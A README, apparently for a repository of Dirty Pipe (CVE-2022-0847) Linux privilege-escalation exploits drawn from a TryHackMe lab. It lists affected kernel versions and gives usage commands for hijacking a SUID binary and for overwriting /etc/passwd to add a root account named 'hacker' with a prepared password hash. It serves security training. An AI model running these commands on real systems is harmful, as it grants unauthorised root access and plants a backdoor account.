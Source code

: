 
## Affected versions
    Linux kernel versions newer than 5.8 are affected.
    So far the vulnerability has been patched in the following Linux kernel versions:
        - 5.16.11
        - 5.15.25
        - 5.10.102
    You can learn more about the vulnerability here: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847
---
The two files are from [TryHackMe](https://tryhackme.com/room/dirtypipe).
### File 1: dirtypipez
Use: `./exploit <PATH TO SUID>` <br>
Example: `./exploit /bin/su`
### File 2: 
Example: `./poc /etc/passwd 189  'hacker:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash` <br>
You get the nummber (189) from `grep -b "games" /etc/passwd`

### More Infos
- TryHackMe: https://tryhackme.com/room/dirtypipe
- HackTheBox: https://app.hackthebox.com/machines/Altered
